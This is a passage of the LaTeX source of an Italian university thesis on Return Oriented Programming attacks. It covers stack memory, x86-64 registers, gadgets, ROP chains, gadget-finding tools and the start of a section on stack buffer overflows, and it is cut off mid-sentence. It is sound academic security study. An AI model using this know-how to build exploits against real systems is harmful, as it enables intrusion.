%CLASSE DOCUMENTO - LINGUA E DIMENSIONE FONT
\documentclass[corpo=11pt,numerazioneromana]{toptesi}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% INCLUSIONE PACCHETTI
\usepackage[classica]{topfront}
\usepackage[utf8]{inputenc} %utf8
\usepackage[italian]{babel}
\usepackage[T1]{fontenc}
\usepackage{blindtext}
\usepackage{graphicx,wrapfig}
\usepackage{booktabs}
\usepackage{lmodern}
\usepackage{varioref}
\usepackage{url}
\usepackage{array}
\usepackage{paralist}{\obeyspaces\global\let =\space}
\usepackage{verbatim}
\usepackage{subfig}
\usepackage{tabularx}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{float}
\usepackage{amssymb}
\usepackage{multicol}
\usepackage{multirow}
\usepackage{listings}
\usepackage[pass]{geometry}
\usepackage[figuresright]{rotating}
\usepackage{algorithm}
\usepackage{algorithmic}
\usepackage{amsmath}
\usepackage[babel]{csquotes}
\usepackage{hyperref}
\usepackage[backend=biber,bibencoding=ascii]{biblatex}
\usepackage[dvipsnames]{xcolor}
\usepackage{pythontex} 
\usepackage{pythonhighlight}

\definecolor{bleudefrance}{rgb}{0.19, 0.55, 0.91}
\definecolor{amethyst}{rgb}{0.6, 0.4, 0.8}
\definecolor{airforceblue}{rgb}{0.36, 0.54, 0.66}
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}
% color def
\definecolor{darkred}{rgb}{0.6,0.0,0.0}
\definecolor{darkgreen}{rgb}{0,0.50,0}
\definecolor{lightblue}{rgb}{0.0,0.42,0.91}
\definecolor{orange}{rgb}{0.99,0.48,0.13}
\definecolor{grass}{rgb}{0.18,0.80,0.18}
\definecolor{pink}{rgb}{0.97,0.15,0.45}


% listings
\usepackage{listings}

% General Setting of listings
\lstdefinestyle{Python}{
  language = Python,
  aboveskip=1em,
  breaklines=true,
  captionpos=b,
  escapeinside={\%*}{*)},
  frame=single,
  numbers=left,
  numbersep=6pt,
  xleftmargin=\parindent,
  numberstyle=\scriptsize\ttfamily,
  basicstyle=\scriptsize\ttfamily,
  backgroundcolor=\color{white},
  commentstyle=\color{darkgreen}\slshape,
  keywords=[2]{rop,rop1,rop2,p,libc,lib,payload,elf,list,n,e,c,ggod_str,where_to_write,username,password,conf,csu_gadget_comp,csu_gadget_pop,offset,binsh,
  puts_lib_idx,scanf_lib_idx,secret_off,pop_rbp,add_mmrax_rbp,change_usr_lib_idx,buffer,pop_r12_r13,pop_r13,pop_rdi,pop_rsi,pop_r15,mov_rax_r13,mov_mmr13_r12,
  add_mbr15_r14b,xor_rdx,syscall,good_str,bad_str,badchars,binary,library,pop_rsp,csu_gadget_comp,ret_pos,csu_gadget_compl},
  keywords=[4]{p64,print,set_env,transform_badchars,recvlines,sendline,recvuntil,ord,chr,critical,raw,call,fit,interactive,execve,next,search,b,f,ELF,ROP,process,
  u64,rstrip,ljust,send,recvline,decode,make_good_str,hex,range,len,to_bytes},
  keywords=[5]{dict,int,float},
  keywordstyle=[2]\color{Bittersweet},
  keywordstyle=\color{codepurple},
  keywordstyle=[4]\color{RoyalBlue},
  keywordstyle=[5]\color{Dandelion},
  stringstyle=\color{LimeGreen}
}

\lstdefinestyle{C lang}{
  belowcaptionskip=1\baselineskip,
  breaklines=true,
  frame=single,
  numbersep=6pt,
  xleftmargin=\parindent,
  language=C,
  showstringspaces=false,
  basicstyle=\scriptsize\ttfamily,
  keywordstyle=\bfseries\color{amethyst},
  commentstyle=\itshape\color{purple!40!black},
  stringstyle=\color{LimeGreen},
  numberstyle=\scriptsize\ttfamily,
  keywords=[2]{new_psw,over,password,conf,username,usr,psw,new_usr,str1,str2,str3,scelta},
  keywords=[4]{change_password,memset,puts,read,check,printf,new_credentials,change_username,secret_function,execve,new_credentials_canary,main,scanf},
  keywordstyle=[2]\color{Bittersweet},
  keywordstyle=\color{codepurple},
  keywordstyle=[4]\color{RoyalBlue},
}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% CONFIGURAZIONE LINK E RIFERIMENTI
\hypersetup{%
    pdfpagemode={UseOutlines},
    bookmarksopen,
    pdfstartview={FitH},
    colorlinks,
    linkcolor={black}, %COLORE DEI RIFERIMENTI AL TESTO
    citecolor={blue}, %COLORE DEI RIFERIMENTI ALLE CITAZIONI
    urlcolor={blue} %COLORI DEGLI URL
}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% CONFIGURAZIONE LISTATI/CODICE - CANCELLARE SE NON NECESSARIO
% PYTHON - BIANCO E NERO
\lstset{%
	captionpos=b,
	language=Python,
	basicstyle =\small\ttfamily,
	keywordstyle=\color{black}\bfseries,
	breaklines=true,
	breakatwhitespace=true,
	frame=lines,
	numbers=left,
	numberstyle=\footnotesize,
}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% FRENCHSPACING VA _SEMPRE_ ABILITATO PER DOCUMENTI IN ITALIANO
\frenchspacing

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%DEFINIZIONE SEZIONI IN NUMERAZIONE ROMANA
%ELENCO DEI LISTATI/CODICI
\makeatletter
\newcommand\listofcodes{%
 \iffrontmatter\else\frontmattertrue\fi
 \if@openright\cleardoublepage\else\clearpage\fi
 % change the meaning of \chapter in a group
 \begingroup\def\chapter##1{\@schapter}
 \phantomsection % for the hyperlink
 \addcontentsline{toc}{chapter}{Elenco dei listati}
 \lstlistoflistings
 \endgroup
} 
\makeatother

\addto\captionsitalian{%
  \renewcommand{\lstlistlistingname}{Elenco dei listati}%
  \renewcommand{\lstlistingname}{Listato}%
}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% INFORMAZIONI PDF - PERSONALIZZARE
\pdfinfo{%
  /Title    (ROP - Return Oriented Programming)
  /Author   (Alessandro Gasparello\\878169)
  /Subject  ()
  /Keywords ()
}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% LISTA DEI CAPITOLI DA INCLUDERE - PERSONALIZZARE
\includeonly{%
chapter/chap_one,%
chapter/chap_two,%
chapter/chap_three,%
chapter/chap_four,%
chapter/chap_five,%
chapter/appendix,%
}

% FILE DI BIBLIOGRAFIA
\addbibresource{bibliography/bibliography.bib}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% INIZIO DOCUMENTO
\begin{document}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% FRONTESPIZIO - PERSONALIZZARE
% ELIMINATE LE VOCI CHE NON VI SERVONO

% UNIVERSITA - NOME
\ateneo{Università Ca' Foscari Venezia}

% FACOLTA - DICITURA - CANCELLARE O DECOMMENTARE
% \FacoltaDi{Facoltà di}
% % FACOLTA - NOME
% \facolta{Informatica}

% CORSO DI LAUREA - DICITURA (MANTENERE LO SPAZIO) - CANCELLARE O DECOMMENTARE
%\CorsoDiLaureaIn{Master of Science in }
% CORSO DI LAUREA - NOME
\corsodilaurea{Informatica - Percorso Data Science}

% TIPOLOGIA TESI
\TesiDiLaurea{Tesi di Laurea}

% TITOLO
\titolo{Analisi e sperimentazione di attacchi Return Oriented Programming (ROP)}

% SOTTOTITOLO
%\sottotitolo{Un trattato di toccante urgenza}

% RELATORE/I - DICITURA - CANCELLARE SE UN SOLO RELATORE
%\AdvisorName{Relatori}
% RELATORE - PROF. NOME E COGNOME
\relatore{prof.\ Riccardo Focardi}

% TUTORE AZIENDALE - TITOLO NOME E COGNOME
% \tutoreaziendale{Ing. Carlino Cane}
% TUTORE AZIENDALE - DICITURA//AZIENDA
% \NomeTutoreAziendale{Tutore Aziendale\\FeelGood Inc}

% CANDIDATO - DICITURA (MANTENERE I DUE PUNTI) - CANCELLARE O DECOMMENTARE
%\CandidateName{Candidate:}

% CANDIDATO - NOME E COGNOME
\candidato{Alessandro Gasparello \\ Matricola 878169}
% CANDIDATA - ELIMINARE O SOSTITUIRE CON IL PRECEDENTE
%\candidata{Tinasa de Tinasis} 
% SECONDO CANDIDATO - ELIMINARE O DECOMMENTARE
%secondocandidato{Bombo de Bombis}
%secondacandidata{Bomba de Bombis}

% LOGO UNIVERSITA
\logosede[0.35\textwidth]{images/unive2.png}

% DATA - MESE ANNO
% \sedutadilaurea{Anno Accademico 2021/2022}

\sedutadilaurea{\small{\textbf{Anno Accademico}} \space \\ {2021/2022}}

\frontespizio

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%INTERLINEA - DEFAULT 1 - NON ESAGERATE, NON SUPERATE MAI 1.3 ;)
%\interlinea{1.2}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\frontmatter

% DEDICA - PERSONALIZZARE
% VSPACE - PROPORZIONE USATA PER CENTRATURA VERTICALE DEL TESTO
% FLUSHRIGHT - ALLINEAMENTO ORIZZONTALE A DESTRA
% \vspace*{\stretch{1}}
% \begin{flushright}
% \noindent
% All'amato me stesso
% \end{flushright}
% \vspace*{\stretch{6}}
\cleardoublepage

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% RINGRAZIAMENTI - PERSONALIZZARE
\ringraziamenti
Ringrazio infinitamente Emily per avermi sempre sostenuto e non aver mai smesso di credere in me e nelle mie potenzialità. 
Ringrazio tanto la mia famiglia che ha cercato per quanto possibile di aiutarmi e supportarmi soprattutto nei momenti più difficili. Ringrazio tantissimo anche i miei due
zii che sono stati dal primo giorno i miei fan e supporter numero uno in questa esperienza. Ringrazio i miei amici per avermi sopportato e sollevato nei momenti più intensi di questo lungo e tortuoso viaggio. 

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% ABSTRACT - PERSONALIZZARE
\sommario
Nell’ultimo ventennio, la tecnica di attacco informatico denominata Return Oriented Programming (ROP) si è distinta dalle
altre grazie alle sue capacità di adattamento alle moderne architetture dei processori e di elusione delle tradizionali 
strategie di difesa quali la NX/DEP (No-execute/ Data Execution Prevention) e la ASLR (Address Space Layout Randomization).\\  
In questo lavoro di tesi, inizialmente, verranno illustrati i concetti su cui si basa la ROP, quali ad esempio la sezione 
di memoria stack ed i principali registri del processore, necessari a comprendere interamente le sue potenzialità.\\ 
Successivamente, verrà analizzato l’impiego e la sperimentazione di essa mediante dei test effettuati su del codice 
in determinate condizioni, sfruttando alcune delle più conosciute e critiche vulnerabilità. Ogni test realizzato avrà 
come obiettivo l’applicazione personalizzata della tecnica in base alla situazione, per poter poi sviluppare efficaci 
attacchi anche in presenza di diversi sistemi di difesa. In conclusione, verranno proposti dei metodi di difesa per proteggere 
il codice da attacchi realizzati con questa potente ed efficace tecnica.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% INDICI - ELIMINARE GLI INDICI NON NECESSARI

% INDICE GENERALE
\tableofcontents

% INDICE DELLE FIGURE
% \listoffigures

% INDICE DELLE TABELLE
% \listoftables

% INDICE DEI CODICI
% \listofcodes

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\mainmatter

% INCLUSIONE FILE CAPITOLI - PERSONALIZZARE - TENERE COERENTE CON LISTA IN ALTO
\chapter{Introduzione alla Return Oriented Programming}
\label{chap:ROP}

\section{Concetti fondamentali per l'applicazione}
\label{sec:fondamentals}

Nel seguente elaborato verrà affrontata la \textbf{Return Oriented Programming}, anche detta ``Programmazione orientata al ritorno''. Essa è una tecnica
mediante la quale un utente malintenzionato potrebbe alterare arbitrariamente il normale flusso di un programma 
senza dover necessariamente iniettare codice di alcun tipo.\cite*{ROP-General}\\
Per comprendere al meglio questa potente tecnica, è necessario primariamente approfondire tutti i concetti su cui essa è fondata, 
analizzando in primo luogo la gestione dell'esecuzione di un qualsiasi programma a livello
di memoria e di registri.\\
L'approccio che verrà impiegato per effettuare gli attacchi si baserà specialmente sulla tipologia di architettura del processore con cui il
software sotto attacco è stato precedentemente sviluppato. Questo perché le istruzioni facenti parte di esso saranno di fondamentale importanza nello sviluppo degli exploit,
come sarà possibile notare nelle successive sezioni.

\subsection{L'architettura del processore}
\label{subsec:arch}
Negli anni, l'attacco basato sulla tecnica ROP si è dimostrato essere applicabile ad un vasto range di architetture differenti \cite*{ROP-architecture}, quali: \textbf{x86}\cite*{ROP-x86},
\textbf{SPARC}\cite*{ROP-General}, \textbf{AtmelAVR}\cite*{ROP-AtmelAVR}, \textbf{Z80}\cite*{ROP-Z80}.\\
Nel seguente lavoro ci si concentrerà sullo studio di questa tecnica applicandola all'architettura \textbf{x86-64}, anche detta ``\textbf{AMD64}'' e ``\textbf{Intel 64}'', ossia l'evoluzione 
della classica \textbf{x86}. Con il passare degli anni essa ha acquisito una grande popolarità, rendendola ad oggi una delle maggiormente supportate e diffuse nei sistemi informatici.\\
Tutto quello che verrà affrontato farà quindi riferimento a questa architettura.

\subsection{La sezione di memoria stack}
\label{subsec:stack}
Il layout di memoria associato ad un qualsiasi programma in linguaggio C eseguito consiste di cinque segmenti \cite{Memory-layout}, chiamati rispettivamente:
\begin{itemize}
    \item \textbf{Stack};
    \item \textbf{Heap};
    \item \textbf{BSS} (Uninitilized data segment);
    \item \textbf{DS} (Initialized data segment);
    \item \textbf{Text}.
\end{itemize} 
In questa porzione di elaborato si cercherà di illustrare la parte di memoria direttamente coinvolta negli attacchi ROP, ossia quella che viene generalmente
chiamata \textbf{stack} o \textbf{execution stack} \cite*{Stack-general}. Questa sezione ha la particolarità di mantenere al suo interno tutte le variabili locali ed i parametri
passati ad una funzione.

\begin{figure}[htbp]
    \centerline{
\includegraphics[scale=.5]{images/memory-layout.png}}
    \caption{Rappresentazione del layout di memoria associato ad un programma.}
    \label{fig:memory-layout}
\end{figure}

In questa tipologia di attacchi, la suddetta parte di memoria assume notevole importanza, essa infatti è ciò che consente all'attaccante
di assumere il controllo del flusso del programma. Il suo scopo principale è quello di mantenere traccia 
di ciò che viene comunemente definito ``\textbf{return address}'' o indirizzo di ritorno. Infatti, quando una funzione qualsiasi A viene chiamata %
da una funzione B, la funzione A deve necessariamente passare l'indirizzo su cui ritornare una volta che essa avrà terminato la propria esecuzione, %
e questa importantissima informazione viene memorizzata nello stack. Grazie a ciò sarà possibile recuperare l'indirizzo da cui si era interrotta la 
normale esecuzione del programma per effettuare la subroutine della funzione invocata, direttamente dallo stack, senza alterarne il flusso.\cite*{Stack-general}
Come si vedrà successivamente questo sarà il fulcro su cui verteranno gli attacchi basati sulla \textbf{Return-Oriented Programming}, i quali sfrutteranno alcune 
vulnerabilità conosciute per modificarne il contenuto.\\
Tuttavia, come specificato precedentemente, questa parte di memoria deve mantenere tutte le variabili locali ed eventuali parametri passati ad una
subroutine. Conseguentemente, qualsiasi buffer con relativo contenuto ed eventuali parametri introdotti in fase di chiamata della funzione saranno immagazzinati
al suo interno, rendendola di fatto una zona di memoria tanto importante quanto rischiosa se violata.\\
Una volta compreso com'è strutturato lo stack è necessario approfondire maggiormente il suo funzionamento. Esso, come la struttura
dati omonima, mantiene una politica di gestione degli elementi di tipo \textbf{LIFO} (\textbf{Last In First Out)} e prevede solamente due tipologie di 
operazioni: \textbf{push} e \textbf{pop} \cite*{Stack-operation}.\\
Solitamente queste due operazioni permettono di memorizzare o importare dati da esso collaborando direttamente con i registri del processore, 
i quali saranno approfonditi successivamente. Grazie alla push sarà possibile aggiungere nello stack il valore contenuto all'interno del registro
specificato dall'operazione, mentre la pop consentirà la rimozione dell'ultimo elemento inserito in esso, per caricarlo poi nel registro specificato 
dall'operazione \cite*{Stack-op2}.\\
Quindi, è di fondamentale importanza capire come i registri del processore vengano utilizzati interagendo con lo stack, per comprendere interamente il suo funzionamento.

\subsection{I registri del processore}
\label{subsec:registers}
Un registro del processore è una delle più piccole porzioni di memoria dove poter memorizzare dati facente parte della CPU del computer.
Esso può contenere un'istruzione, un indirizzo di archiviazione o qualsiasi altro tipo di dato (come caratteri o una sequenza di bit) \cite{Register-definition}.\\
È importante che un registro sia abbastanza grande da poter contenere un'istruzione, ad esempio, in un computer a 64 bit come per l'architettura x86-64 un registro deve 
essere lungo almeno 64 bit.\\
Nell'architettura x86-64 i registri vengono solitamente suddivisi in cinque classi principali:
\begin{itemize}
    \item \textbf{General purpose}: \textbf{rax}, \textbf{rbx}, \textbf{rcx}, \textbf{rdx},  \textbf{r8}, \dots, \textbf{r15};
    \item \textbf{Stack}: \textbf{rsp}, \textbf{rbp};
    \item \textbf{Instruction pointer}: \textbf{rip};
    \item \textbf{Indexes}: \textbf{rsi}, \textbf{rdi};
    \item \textbf{Single Instruction Multiple Data}: \textbf{xmm0}, \dots, \textbf{xmm15};
    \item \textbf{Flag register}: \textbf{rFlag}, es: \textbf{ZF}, \textbf{CF}, \textbf{SF}.
\end{itemize}
Inoltre, è possibile accedere specificatamente a delle porzioni dei registri, come si può notare dalla figura \ref{fig:register-partition}.
\begin{figure}[ht]
    \centerline{
\includegraphics[scale=.6]{images/register-partition.png}}
    \caption{Partizioni accessibili di un registro.}
    \label{fig:register-partition}
\end{figure}
\\Per comprendere il funzionamento della \textbf{ROP}, verrà analizzato principalmente il funzionamento di tre registri: \textbf{rsp} (\textbf{stack pointer}), \textbf{rbp} (\textbf{base pointer}) e \textbf{rip}
(\textbf{instruction pointer}).
I primi due risultano essenziali nella gestione dello stack, ogni qualvolta all'interno di un programma viene richiamata una funzione, un nuovo \textbf{stack frame} specifico sarà creato ed 
essi delimiteranno questa nuova porzione di memoria.
In particolare, il primo registro conterrà l'indirizzo dell'elemento in cima allo stack frame attuale, mentre il secondo conterrà il suo indirizzo di base \cite*{stack-frame-layoutx86-64}.\\
Il \textbf{rip}, invece, conterrà sempre l'indirizzo di memoria su cui risiede la prossima istruzione da eseguire per mantenere il corretto
flusso del programma, cioè il flusso che il creatore del codice si aspetta che sia eseguito.

\section{Funzionamento della tecnica}
\label{sec:func}
Dopo aver introdotto i fondamenti su cui si basa la tecnica di attacco informatico \textbf{Return-Oriented Programming} (\textbf{ROP}), in questa sezione si cercherà di illustrare il 
funzionamento di essa, quindi verranno messi assieme tutti i concetti visti nelle precedenti parti.\\
Un programma ordinario è costituito da una serie di istruzioni assembly, ed ognuna di esse è rappresentata da una serie di byte che, una volta interpretate dal processore, indurranno qualche cambiamento
nello stato del programma. Come accennato precedentemente, il registro \textbf{rip} punterà sempre alla successiva istruzione che dovrà essere eseguita dal processore, una volta terminata quella 
attuale. Questo registro verrà sempre aggiornato dalla CPU dopo ogni istruzione eseguita, in modo che le istruzioni vengano sempre interpretate in sequenza e 
mantenendo il flusso designato \cite*{ROP-General}.
Quando una funzione sarà invocata durante l'esecuzione del codice, com'è stato specificato in precedenza, verrà allocato un nuovo stack frame, e l'indirizzo di ritorno sarà memorizzato 
all'interno di esso \cite*{buffer-overflow}. A questo punto arriviamo alla motivazione per cui la \textbf{Return-Oriented Programming} venga così definita, essa prende il nome dalla celebre istruzione assembly ``\textbf{RETN}'' o
``\textbf{Return from Procedure}'' (``\textbf{ret}'' in x86-64).\\
Al termine di una qualsiasi funzione o subroutine sarà sempre presente questo tipo di istruzione che, una volta raggiunta dal processore, gli imporrà di eseguire una serie di operazioni, quali: il decremento
del registro \textbf{rsp} e soprattutto l'aggiornamento del contenuto del registro \textbf{rip} (che come chiarito in precedenza punterà sempre alla prossima istruzione che la CPU dovrà eseguire) memorizzando in esso
l'indirizzo di ritorno presente in quel momento all'interno dello stack frame attuale.\\
Questa tecnica di exploit sfrutterà tale sequenza di operazioni, l'attaccante dovrà cercare di utilizzare a proprio vantaggio alcune vulnerabilità presenti all'interno del software per sovrascrivere con del codice 
arbitrario l'indirizzo di ritorno memorizzato nello stack, ottenendo così il controllo del flusso di esecuzione del programma.\\
Il reale punto di forza della \textbf{ROP} è la non necessità di iniettare alcun tipo di codice nuovo, utilizzando invece piccole sequenze di istruzioni assembly già disponibili all'interno del binary file del programma
oppure delle librerie collegate all'applicazione, comunemente chiamate \textbf{Gadgets} \cite*{ROP-Basics}.

\subsection{I gadgets}
\label{subsec:gadgets}
Nella precedente sezione sono stati introdotti i \textbf{gadgets}, piccole sequenze di istruzioni assembly che presentano una rilevante particolarità, ossia quella di terminare sempre con un'istruzione \textbf{ret}. 
Esiste anche un'altra tecnica chiamata \label{jop}\textbf{Jump-Oriented Programming} (\textbf{JOP}), che come suggerito dal nome sfrutta sequenze terminanti con un'istruzione \textbf{jmp} \cite*{JOP}\cite*{JOP2}. Essa è una strategia molto efficace, tuttavia 
non verrà trattata in questo elaborato.\\
I \textbf{gadgets} sono uno strumento molto versatile per l'attaccante, il quale potrà utilizzarli una volta preso il controllo dello stack per effettuare qualsiasi operazione esso voglia riutilizzando il codice già presente.\\

\begin{figure}[ht]
    \centerline{
\includegraphics[scale=.6]{images/Gadget.png}}
    \caption{Esempio di un ipotetico Gadget nell'architettura x86-64.}
    \label{fig:Gadget}
\end{figure}

Esistono due tipologie di \textbf{gadgets} o sequenze: le ``\textbf{Unintented Istruction Sequences}'' e le ``\textbf{Intented Istruction Sequences}'' \cite*{ROP-architecture}.\\
poiché nell'architettura x86-64 i \textbf{gadgets} non si limitano ad essere solamente sequenze di istruzioni esistenti. Essendo quest'ultime di dimensioni variabili potrebbe esistere una potenziale sequenza utile inattesa, prendendone
semplicemente una intenzionale partendo da un offset differente da quello aspettato \cite*{Gadgets-unintended}. 

\begin{figure}[ht]
    \centerline{
\includegraphics[scale=.6]{images/Unintended-seq.png}}
    \caption{Esempio di un gadget ricavato da una sequenza intenzionale, prendendo un offset differente da quello previsto.}
    \label{fig:Unintended-seq}
\end{figure}

È anche questa una delle motivazioni che ha suggerito dopo decenni di ricerche, come la \textbf{ROP} sia Turing Completa \cite*{ROP-x86}\cite*{ROP-General}, quindi in linea 
teorica è possibile assemblare qualsiasi tipo di programma arbitrario utilizzando solamente questi \textbf{gadgets} \cite*{ROP-General2}. Essendo infatti queste sequenze tutte composte da una serie di istruzioni sempre
terminanti da una \textbf{ret} (o \textbf{jmp}), l'attaccante potrà concatenare assieme questi gadget inserendoli opportunamente all'interno dello stack, formando quella che viene comunemente definita \textbf{ROP-Chain} \cite*{ROP-Chain}.

\begin{figure}[h]
    \centerline{
\includegraphics[scale=.6]{images/Rop-Chain.png}}
    \caption{Esempio di una possibile \textbf{ROP chain} caricata nello stack.}
    \label{fig:ROP-chain}
\end{figure}

Ora non resta che capire come un attaccante possa reperire queste essenziali sequenze di istruzioni. A tale scopo, sono stati ideati molti strumenti in grado di identificarli all'interno dei binary file.
Alcuni dei più conosciuti ed utilizzati sono: \textbf{\textit{ROPgadget}} di Jonathan Salwan \cite*{ROPgadget}, \textbf{\textit{Ropper}} di Sascha Schirra \cite*{Ropper} e \textbf{\textit{Radare2}} del gruppo Radare \cite*{Radare2}.\\
Questi strumenti verranno approfonditi successivamente visto che saranno principalmente utilizzati per effettuare i diversi test.
Ora che è stato chiarito il funzionamento di questa potente tecnica d'attacco è necessario comprendere in quali situazioni essa possa essere applicata, ossia di fronte a quali vulnerabilità risulti 
particolarmente efficace.



\chapter{Vulnerabilità sfruttabili dalla ROP e difese}
\label{chap:ROP-vulnerabilities}

\section{Vulnerabilità critiche all'interno dei codici}
\label{sec:Vulnerabilita}
Nel capitolo \ref{chap:ROP} sono stati ampiamente discussi i punti fondamentali su cui si basa la \textbf{ROP}. Tuttavia, non è ancora stato approfondito in quali condizioni sia possibile applicare questa tecnica di attacco in un
vero e proprio software. Effettuare un attacco con essa, significa sovvertire il controllo del flusso dell'applicazione in modo tale che vengano eseguite le azioni richieste dall'utente malevolo. Una delle classi di vulnerabilità
più conosciute e diffuse al mondo che consentono di svolgere quanto appena descritto, è la \textit{stack-based buffer overflow} \cite*{Stack-bufferoverflow}\cite*{Stack-bufferoverflow2}. Esistono altre classi della stessa tipologia, quali: \textit{heap overflow} 
\cite*{Heapoverflow}\cite*{Heapoverflow-jpeg}, \textit{integer overflow} \cite*{Integeroverflow}\cite*{Integeroverflow2} e \textit{format string vulnerabilities} \cite*{Formatstring}\cite*{Formatstring2}.\\
In questo elaborato saranno approfonditi solo gli \textit{stack-based buffer overflow} e le \textit{format string vulnerabilities}, in quanto saranno le due tipologie presenti anche all'interno dei test.

\subsection{Stack-based buffer overflow}
\label{subsec:Stack-buffer overflow}
Nelle precedenti sezioni è stato assunto che fosse possibile sovrascrivere l'indirizzo di ritorno memorizzato nello stack di un codice scritto in linguaggio C, consentendo ad un attaccante di applicare la \textbf{ROP}. 
Tuttavia, non è ancora stato chiarito come sia possibile o quali siano le condizioni che consentano di effettuare questa operazione. Solitamente, un utente qualsiasi non dovrebbe essere in grado di modificare aree 
di memoria sensibili (come lo stack) riservate ad un programma in esecuzione. Esistono però delle vulnerabilità che se sfruttate correttamente ne conferiscono all'attaccante il controllo, rendendo di fatto possibili exploit 
come quelli di tipo \textbf{Return Oriented Programming}.\\
Una delle classi di vulnerabilità più conosciute e diffuse nel mondo della programmazione, che porta a questo tipo di conseguenze, è la \textit{stack-based buffer overflow}. Come espresso nella sezione \ref{subsec:stack} del capitolo \ref*{chap:ROP}, nel frame stack
attuale vengono salvati dati come variabili locali, argomenti passati alla funzione e indirizzo di ritorno. Il problema sorge quando all'interno di una subroutine viene definito un buffer, ossia viene riservata una sequenza di lunghezza predefinita di celle o blocchi di
memoria (lo si può anche pensare semplicemente come un qualsiasi array). Essendo esso una qualsiasi variabile, il suo contenuto verrà di conseguenza memorizzato nello stack frame corrispondente. Tuttavia, se per l'utente fosse possibile inserire più dati all'interno di questo buffer,
rispetto allo spazio riservato in precedenza dal programma, allora si verificherebbe quello che viene comunemente definito come \textit{buffer overflow} \cite*{Stack-bufferoverflow}.\\
Grazie a questo fenomeno, l'attaccante potrà quindi sovrascrivere il contenuto dell'attuale stack frame con codice arbitrario, prendendo di fatto pieno controllo del flusso del programma. Nel caso della ROP, l'utente malintenzionato avrà come scopo quello di identificare la 
